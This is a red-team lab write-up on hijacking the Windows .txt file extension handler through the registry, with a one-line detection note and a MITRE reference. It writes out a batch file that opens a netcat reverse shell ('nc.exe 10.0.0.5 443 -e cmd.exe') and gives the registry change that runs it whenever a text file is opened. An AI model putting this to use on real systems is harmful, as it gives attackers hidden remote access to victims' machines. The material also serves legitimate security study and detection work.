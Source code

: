 <h1>Hijacking Default File Extension</h1>
<p>When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension (among many others) are mapped to applications that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.</p>
<p>It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened.</p>
<p>In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.</p>
<h2>Execution</h2><p>The .txt extension handler is defined in the below registry key:</p><pre>Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command</pre>
<p>Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:</p>
<img src="https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/raw/master/.gitbook/assets/image%20(427).png">
<p>Say, a target user has the file test.txt on his desktop with the below file contents:</p>
<img src="https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/raw/master/.gitbook/assets/image%20(430).png">

<p>Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. 
For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:</p>
<pre><code title="c:\tools\shell.cmd">start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe\nstart notepad.exe %1</code>
</pre>
<img src="https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/raw/master/.gitbook/assets/image%20(429).png">
<p>Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.</p>
<p>We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:
  <img src="https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/raw/master/.gitbook/assets/image%20(431).png">

</p>
<h2>Demo</h2>
<p>Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:
<img src="https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/raw/master/.gitbook/assets/hijacked-extension.gif"></p>
<h2>Detection</h2>
<p>Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.</p>
<h2>References</h2>
<p><a href="https://attack.mitre.org/techniques/T1042/">https://attack.mitre.org/techniques/T1042/</a></p>
